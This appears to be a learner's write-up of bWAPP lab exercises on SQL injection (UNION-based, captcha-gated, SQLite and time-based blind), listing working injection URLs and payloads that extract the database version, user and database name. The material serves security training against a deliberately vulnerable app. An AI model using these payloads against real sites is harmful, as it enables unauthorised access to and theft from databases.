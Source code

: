 ### SQL Injection (POST/Select):
- So i started by trying to put \'  after the movies url so i can see what will happen
- and it gave me an error in sql syntax and that means that if i write sql it will work.
- So i tried union select in the url as follows:
``` url
`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,2,3,4,5,6,7--&action=go`
```
- so i typed 1=0 as the union won't work if i didn't add it  as the first select will over write the second
- so when i tried that it returned all these numbers in the website in title release character and genre
- so i can now think of using instead of one of the numbers a user or something
- so when i used : 
```
http://192.168.56.101/bWAPP/sqli_2.php?movie=2%20and%201=0%20union%20all%20select%201,2,version(),user(),5,6,7--&action=go
```
- it returned instead of the release the version of the ubuntu and instead of the genre the user id :
  ![[Pasted image 20230329224307.png]]
---
### SQL Injection (Captcha):
- first i did was to get to the captcha as there was no tables or something like that
- then when i got through it i saw the same as before a table a search and a number in url title = 1 that can change so i did it this time in the search bar : 
  ![[Pasted image 20230330103949.png]]
  ```SQL
  1' union select 1,version(),3,database(),5,6,7-- #
```
- and it worked it gave me the info i needed :
	![[Pasted image 20230330104038.png]]
---
### SQL Injection (Sql Lite):
- Like before there is search bar so i tried to see all the columns by using : 
```SQL
' union select all 1,2,3,4,5,6,7-- #
```
- but returned an error so i decreased the values by 1 :
```SQL
' union select all 1,2,3,4,5,6-- # 
```
- it worked but there was something wrong  when i tried to get the database version:
```SQL
' union select all 1,2,3,database(),5,6-- #
```
- so  i searched for sqlite commands to get it's version and i found this
```SQLite
select sqlite_version()
```
- so i tried it in my select : 
``` SQL
' union select all 1,2,3,SQLite_version(),5,6-- # 
```
- and it worked ! 
![[Pasted image 20230330105019.png]]
---
## Sql blind - time - based:
- it was simple as it is about time so i tried this payload:
``` SQL
' 1=1 and sleep(1) #
```
- so it appeared that it took 1 second to reload that means that sql injection by time sleep is working on it.